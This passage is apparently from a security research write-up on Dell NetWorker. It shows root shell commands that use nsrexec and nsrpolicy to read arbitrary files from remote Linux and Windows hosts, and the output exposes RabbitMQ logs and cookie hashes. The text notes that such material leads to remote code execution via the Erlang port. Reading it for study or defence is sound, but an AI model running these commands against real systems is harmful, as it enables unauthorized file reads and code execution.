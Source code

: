 ```
[root@networker-server ~]# export RCMD="nsrpolicy input-file -f /opt/nsr/rabbitmq-server-3.2.4/var/log/rabbitmq/rabbit@networker-server.log"
[root@networker-server ~]# nsrexec -c 192.168.121.238 2>&1 | grep Command
121415:nsrpolicy: Command from file:
121415:nsrpolicy: Command from file: =INFO REPORT==== 22-Feb-2021::13:32:46 ===
121415:nsrpolicy: Command from file: Starting RabbitMQ 3.2.4 on Erlang R16B03-1
121415:nsrpolicy: Command from file: Copyright (C) 2007-2013 GoPivotal, Inc.
121415:nsrpolicy: Command from file: Licensed under the MPL.  See http://www.rabbitmq.com/
121415:nsrpolicy: Command from file:
121415:nsrpolicy: Command from file: =INFO REPORT==== 22-Feb-2021::13:32:46 ===
121415:nsrpolicy: Command from file: node           : rabbit@networker-server
121415:nsrpolicy: Command from file: home dir       : /nsr/rabbitmq
121415:nsrpolicy: Command from file: config file(s) : (none)
121415:nsrpolicy: Command from file: cookie hash    : gOc/cQw7eTfGpOhV+okBXQ==
121415:nsrpolicy: Command from file: log            : /opt/nsr/rabbitmq-server-3.2.4/sbin/../var/log/rabbitmq/rabbit@networker-server.log
121415:nsrpolicy: Command from file: sasl log       : /opt/nsr/rabbitmq-server-3.2.4/sbin/../var/log/rabbitmq/rabbit@networker-server-sasl.log
121415:nsrpolicy: Command from file: database dir   : /opt/nsr/rabbitmq-server-3.2.4/sbin/../var/lib/rabbitmq/mnesia/rabbit@networker-server
121415:nsrpolicy: Command from file:
--snip--
```

```
[root@networker-client ~]# export RCMD="nsrpolicy input-file -f C:\Windows\System32\config\systemprofile\AppData\Roaming\RabbitMQ\log\rabbit@NETWORKER-WIN.log"
[root@networker-client ~]# nsrexec -c 192.168.121.183 2>&1 | grep Command
121415:nsrpolicy: Command from file:
121415:nsrpolicy: Command from file: =INFO REPORT==== 19-Feb-2021::11:29:07 ===
121415:nsrpolicy: Command from file: Starting RabbitMQ 3.2.4 on Erlang R16B03-1
121415:nsrpolicy: Command from file: Copyright (C) 2007-2013 GoPivotal, Inc.
121415:nsrpolicy: Command from file: Licensed under the MPL.  See http://www.rabbitmq.com/
121415:nsrpolicy: Command from file:
121415:nsrpolicy: Command from file: =INFO REPORT==== 19-Feb-2021::11:29:07 ===
121415:nsrpolicy: Command from file: node           : rabbit@NETWORKER-WIN
121415:nsrpolicy: Command from file: home dir       : C:\Windows
121415:nsrpolicy: Command from file: config file(s) : (none)
121415:nsrpolicy: Command from file: cookie hash    : 2HOFPWBXNZ3XmdRzs2x+cQ==
121415:nsrpolicy: Command from file: log            : C:/Windows/system32/config/systemprofile/AppData/Roaming/RabbitMQ/log/rabbit@NETWORKER-WIN.log
121415:nsrpolicy: Command from file: sasl log       : C:/Windows/system32/config/systemprofile/AppData/Roaming/RabbitMQ/log/rabbit@NETWORKER-WIN-sasl.log
121415:nsrpolicy: Command from file: database dir   : c:/Windows/system32/config/systemprofile/AppData/Roaming/RabbitMQ/db/rabbit@NETWORKER-WIN-mnesia
```

More details about getting RCE via the Erlang distribution port can be found in [[1](#ref1)], [[2](#ref2)], and [[3](#ref3)].

#### A note on exploitability
